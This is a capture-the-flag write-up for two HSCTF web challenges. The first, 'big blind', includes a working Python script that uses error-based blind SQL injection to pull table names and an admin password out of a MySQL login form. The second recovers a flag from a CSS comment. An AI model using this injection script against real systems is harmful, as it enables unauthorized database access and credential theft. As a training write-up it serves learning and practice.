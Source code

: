 ```yaml
---
title: HSCTF - Web
tags: web
---
```


## web/big blind

From the title "Big Blind" I assumed this was some kind of Blind Injection, probably SQL, but I didn't want to assume anything. Sending a single `'` returned a 500 internal server error, backing up my theory that it was probably blind SQL injection.

After trying a few different things, using the sleep function didn't return an error, but didn't seem to do anything.
I tried other waiting commands like `WAITFOR DELAY '0:0:10'`, `dbms_pipe.receive_message(('a'),10)`, and `pg_sleep(10)`, however, all of these returned errors. 
This meant that it was probably either SQLlite or MySQL.

I then tested GLOB, a function that is in SQLlite but not MySQL, this returned an error, suggesting that it was MySQL. Because the database was MySQL, I knew that `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` would trigger an error if true, and put it into a python script to attempt to expose the database's contents.

I used the script to determine the tablename (users) from `information_schema.tables`, then determined the column names 
(user, pass) from `information_schema.columns`, and then finally enumerated the username and password (admin, the flag)

The script is here, I modified it to make it run for each different function, and in this form it is configured for 
enumerating the flag, which was the last time I used it(sorry if its a bit messy):


```python
import requests
url = "https://big-blind.hsc.tf/"
payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+TABLE_NAME+FROM+information_schema.tables+LIMIT+1),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
headers = {
  'Host': 'big-blind.hsc.tf',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Content-Type': 'application/x-www-form-urlencoded',
  'Content-Length': '166',
  'Origin': 'https://big-blind.hsc.tf',
  'Connection': 'close',
  'Referer': 'https://big-blind.hsc.tf/',
  'Upgrade-Insecure-Requests': '1'
}


lalph = list(map(chr, range(ord('a'), ord('z')+1)))
Ualph = list(map(chr, range(ord('A'), ord('Z')+1)))
nums = list(range(0,10))
blank = [""]
additionals = ["_","$","{","}"]
totalPos = blank+additionals+lalph+Ualph+nums
fullAlph = []
for val in totalPos:
    fullAlph.append(str(val))
end = False
thing = 0
dbNames= []
password = "flag"
maxi = 50
while thing < maxi:
    if(end==True):
        end=False
        print("Adding: "+password)
        dbNames+=[password]
        password=""
        
        thing+=1
    for Char in totalPos:
        Char = str(Char)
        reqH = payload
        payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+pass+FROM+users+WHERE+user='admin'+LIMIT+1+OFFSET+{}),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
        reqH = reqH.format(thing,len(password)+1,password+Char)
        #print(reqH)
        response = requests.request("POST", url, headers=headers, data=reqH)
        #print(response)
        if("<html lang" in str(response.content)):
            if(Char == ""):
                end=True
                break
            else:
                print(password+Char+"=True")
                password+=Char
                break
        else:
            print(password+Char+"=False")
       
    


print("Database Names: ")
for name in dbNames:
    print(str(name))
```

## web/NRC (955 solves/107 points)

### Description: ##
Find the flag :)
> `no-right-click.hsc.tf`

### Solution:

As the link says, there's no right click on the website; however, with `Ctrl+Shift+C` we are able to see the developer console. We can navigate to the sources tab and then view `useless-files.css`:

```css
body {
    text-align: center;
    font-size: 5rem;
    font-family: 'Abril Fatface', cursive;
}
.small {
    margin-top: 50vh;
    font-size: 0.5rem;
}
/* cause i disabled it in index.js */
/* no right click = n.r.c. */
/* flag{keyboard_shortcuts_or_taskbar} */
```

And the the flag is on the last line.

### Flag:
flag{keyboard_shortcuts_or_taskbar}